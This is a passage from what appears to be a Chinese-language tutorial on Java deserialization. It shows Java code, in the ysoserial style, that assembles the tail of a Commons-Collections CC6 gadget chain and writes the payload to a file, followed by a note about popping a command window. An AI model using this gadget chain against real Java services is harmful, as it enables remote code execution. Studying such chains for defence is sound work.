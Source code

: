 ```java
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }
        f2.setAccessible(true);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, entry);


        //TODO===============================CC6新的触发点 END By YsoSerial=========================

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(map);
        oos.flush();
        oos.close();
    }
}
```

## 调试

来弹个cmd

![image-20241119210521358](./main.assets/image-20241119210521358.png)
